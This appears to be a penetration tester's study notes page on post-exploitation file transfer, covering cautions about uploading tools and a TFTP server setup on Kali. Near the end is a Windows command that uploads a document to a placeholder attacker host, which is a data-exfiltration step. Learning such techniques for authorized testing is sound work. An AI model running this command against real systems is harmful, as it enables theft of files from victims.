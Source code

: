 


Post-exploitation of uploading files & tools/ downloading files to the target machine.  
  
*****Meaning, majority of cmds performed will be on the compromised machine, using our Kali as the C2 for downloads
  
These methods could endanger the success of the engagement & should be used w/ caution & only under specific conditions.  
  
- Any post-explioitation attck tools could be abused by malicious parties, putting the client at risk.  
	- It's _extremely important_ to document uploads and remove them after the assessment is completed.  
- Antivirus software can detect our attack tools, quarantine them, and alert a sysadmin.  
	- This could cost us our internal remote shell or, in extreme cases, signal the effective end of the engagement.  
  
As a general rule of thumb, we should always try to use native tools on the compromised system.  
	Uploading addt tools when native ones are insufficient can be done when:  
	- We've determined the risk of detection is minimized, or  
	- When our need outweighs the risk of detection.  
  
  
[Non-Interactive Shell Upgrading](Non-Interactive%20TTY.md)


### Pure-FTP

[Setting up pure-ftpd on Linux](pure-ftpd.md)

### TFTP

[TFTP](tftp.md) is a UDP-based file transfer protocol and is often restricted by corporate egress firewall rules.  
Useful for systems prior to PS's default install: (Windows 7 and Windows Server 2008 R2) , IoT, and other small form-factor devices
  
Setup:  
	On Kali:  
1. Install and configure a TFTP server in Kali and create a directory to store and serve files.  
```bash
sudo apt update && sudo apt install atftp
```


2. Next, we update the ownership of the directory so we can write files to it.  
```bash
sudo mkdir /tftp  
sudo chown nobody: /tftp
```

3. We will run atftpd as a daemon on UDP port 69 and direct it to use the newly created **/tftp** directory  
```bash
sudo atftpd --daemon --port 69 /tftp
```

On Windows:  
1. Run the **tftp** client  
```powershell
tftp -i attacker_ip put important.docx
```
.
- **-i** - Specify binary image transer  
- **put** - Initiates an upload
